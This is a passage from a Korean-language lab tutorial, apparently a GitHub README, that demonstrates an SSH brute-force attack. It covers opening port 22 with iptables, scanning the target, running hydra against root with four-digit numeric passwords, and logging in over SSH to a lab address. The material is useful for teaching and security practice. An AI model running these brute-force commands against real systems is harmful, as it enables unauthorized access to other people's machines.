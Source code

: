 패스워드가 복잡할수록 시간이 많이 소요되므로 확인용으로 password를 0123으로 변경하겠습니다.

SSH brute force attack이 성공적으로 되었는지를 확인하기 위해 대상자에 SSH.txt 파일을 만듭니다. _(이 과정을 생략해도 되겠습니다.)_

### `iptables`

22번 PORT를 열기 위해서는 LINUX에서 제공하는 `iptables`를 이용해 공격자에게 해당 포트를 허용합니다.

```bash
$ sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT   
$ sudo iptables -A INPUT -p udp --dport 22 -j ACCEPT
```

`iptables -L`를 통해 현재 22번 PORT가 어느곳에서든 허용한다는 것을 볼 수 있다. 

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/120061139-bb018b00-c096-11eb-8136-5bc5d63eb490.png" width = 560>
</p>

포트스캐닝으로 대상자의 IP를 확인해보면 OPEN 인 것을 알 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/120061261-585cbf00-c097-11eb-9ae1-998bcffe5693.png" width = 560>
</p>

모든 준비는 끝났고, 이제 `hydra` 명령어로 무차별 대입공격을 시도한다.

```bash
(root@kali)~#`hydra -l root 4:4:1 [대상자 IP] ssh -V -f`
```

+ `-l` : 아이디

+ `-L` : 아이디 리스트 파일

+ `-p` : 비밀번호

+ `-P` : 비밀번호 사전 파일

+ `-x 4:4:1` : 최소 4자리 : 최대 4자리 : 숫자로 되어 있는 비밀번호

+ -`v` : 자세히 

+ `-V` : login + 비밀번호 Vision

+ `-f` : 비밀번호 발견시 종료

`hydra -l root -x 4:4:1 192.168.203.130 ssh -V -f` 

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/120061475-66f7a600-c098-11eb-9d33-5a8759f1a12f.png" width = 580>
</p>

임의로 변경했던 PASSWORD : 0123이 확인이 된다. `ssh root@[대상자 IP]`로 접속을 시도한다. 우리가 알아낸 PASSWORD를 입력하면 대상 컴퓨터에 접속이 가능해진다. 대상 컴퓨터에 작성했던 SSH.TXT를 확인해본다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/120061567-d2417800-c098-11eb-975d-572fde79a456.png" width = 550>
</p>

